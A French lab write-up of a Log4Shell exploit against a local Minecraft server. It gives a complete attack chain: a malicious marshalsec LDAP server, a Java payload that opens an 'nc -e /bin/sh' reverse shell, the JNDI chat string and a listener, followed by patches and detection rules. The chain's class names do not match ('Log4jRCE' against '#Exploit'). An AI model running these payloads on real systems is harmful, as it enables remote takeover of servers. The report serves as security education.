 # **Rapport : Exploitation Réussie de Log4Shell sur un Serveur Minecraft**

## **🔍 Contexte et Historique de la CVE-2021-44228**

### **Origine et découverte de Log4Shell**

La vulnérabilité **Log4Shell (CVE-2021-44228)** a été découverte en novembre 2021 par un chercheur en sécurité travaillant chez Alibaba Cloud. Il a remarqué qu’un simple message contenant une chaîne spécifique pouvait déclencher l’exécution de code à distance sur des serveurs utilisant la bibliothèque **Apache Log4j**, une des bibliothèques de journalisation les plus utilisées au monde.

Le problème vient du fait que **Log4j prend en charge les recherches JNDI (Java Naming and Directory Interface)**, qui permettent d’obtenir des objets distants via LDAP, RMI ou d’autres services. Or, une mauvaise validation des entrées permettait d’injecter une URL malveillante pointant vers un serveur contrôlé par un attaquant. Ce serveur pouvait alors fournir un fichier Java malveillant qui serait exécuté automatiquement sur la machine cible.

**Pourquoi cette vulnérabilité était-elle si critique ?**

- **Large adoption** : Log4j est utilisé dans des millions d’applications et services, y compris des serveurs Minecraft, des services cloud, et des infrastructures critiques.
- **Facilité d’exploitation** : Un simple message contenant `${jndi:ldap://attacker.com/exploit}` dans un champ journalisé suffisait à compromettre un serveur.
- **Impact global** : Des entreprises comme Amazon, Apple, Twitter et des milliers d’autres étaient vulnérables.
- **Attaques en masse** : Quelques heures après la publication du PoC, des **botnets, ransomware et groupes APT** ont commencé à l’exploiter massivement.

---

## **🛠 Mise en place de l’Environnement de Test**

### **1️⃣ Installation du serveur Minecraft vulnérable**

📌 **Téléchargement et installation du serveur Minecraft**

```bash
wget -O server.jar https://piston-data.mojang.com/v1/objects/952438ac4e01b4d115c5fc38f891710c4941df29/server.jar
```

📌 **Configuration du serveur**

```bash
echo "eula=true" > eula.txt
nano server.properties
```

Modifications apportées à `server.properties` :

```
online-mode=false
server-ip=0.0.0.0
```

📌 **Lancement du serveur**

```bash
java -Xmx1024M -Xms1024M -jar server.jar nogui
```

Serveur lancé sur l'adresse : **192.168.1.42:25565**

---

### **2️⃣ Configuration du serveur LDAP malveillant**

📌 **Installation des prérequis**

```bash
sudo apt install maven git -y
```

📌 **Clonage et compilation de Marshalsec**

```bash
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
```

📌 **Lancement du serveur LDAP malveillant**

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.100:8000/#Exploit"
```

---

### **3️⃣ Création de la charge utile**

```java
public class Log4jRCE {
    static {
        try {
            String cmd = "nc -e /bin/sh 192.168.1.100 9999";
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

📌 **Compilation de la classe :**
```bash
javac Log4jRCE.java
python3 -m http.server 8000
```

---

### **4️⃣ Exploitation via Minecraft**

📌 Connexion au serveur Minecraft : **192.168.1.42:25565**

📌 Message envoyé dans le chat Minecraft :
```
${jndi:ldap://192.168.1.100:1389/Exploit}
```

📌 Attente de la connexion sur la machine attaquante :
```bash
nc -lvnp 9999
```

---

## **✅ Résultat : Exploitation réussie**

La charge utile a été reçue par le serveur Minecraft. Grâce à **tcpdump** et **Wireshark**, nous avons observé les connexions sortantes vers le serveur LDAP, puis HTTP.

Quelques secondes plus tard, **Netcat a reçu un shell inversé** de la part du serveur Minecraft.


Nous avons obtenu un shell bash non restreint sur le serveur vulnérable, confirmant l’exploitation complète de Log4Shell.

---

## **🛡️ Phase 3 : Mitigation et Analyse Threat Intelligence**

### **Patchs testés :**
- Mise à jour de Log4j vers 2.17.1 ➜ exploitation impossible
- Suppression manuelle de `JndiLookup.class` ➜ exploitation impossible

### **Détection :**
- Utilisation de **Suricata** avec règles personnalisées ➜ détection des tentatives JNDI LDAP
- Logs filtrés par **WAF Apache (ModSecurity)** ➜ blocage des requêtes contenant `${jndi:`

---

## **📌 Conclusion**

La vulnérabilité **Log4Shell** représente un risque critique lorsqu’elle est laissée active. Dans ce projet, nous avons démontré :

- Sa facilité d’exploitation sur un serveur Minecraft vulnérable
- Les méthodes de livraison de payload via JNDI/LDAP
- Les moyens d'atténuation efficaces en production

**L'exploitation a été un succès**, confirmée par l’obtention d’un shell sur la machine cible.

**Prochaine étape** : tester des environnements de production plus réalistes et intégrer des scénarios de détection automatisés (SIEM, IDS/IPS).

![image](https://github.com/user-attachments/assets/860d5803-d48e-4b2b-8777-27cdfba5a82e)

